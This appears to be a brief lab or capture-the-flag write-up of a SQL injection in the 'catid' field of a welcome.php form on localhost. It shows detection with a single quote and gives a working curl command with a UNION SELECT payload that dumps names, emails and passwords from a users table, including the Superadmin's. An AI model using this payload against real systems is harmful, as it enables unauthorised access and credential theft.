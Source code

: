 1. Category field was vulnerable to SQL injection
2. You can detect it by adding single quote `'` to the end of `catid` parameter => `item=&description=&catid=1000'`
![alt text](image.png)
3. Then you could have exploited it using union based injection
```sh
curl 'http://localhost:8080/welcome.php' -X POST  -H 'Content-Type: application/x-www-form-urlencoded'  --data-raw 'item=&description=&catid=1000 union select firstname , email ,password  from users --'
```
and you can get password of `Superadmin` ![alt text](image-1.png)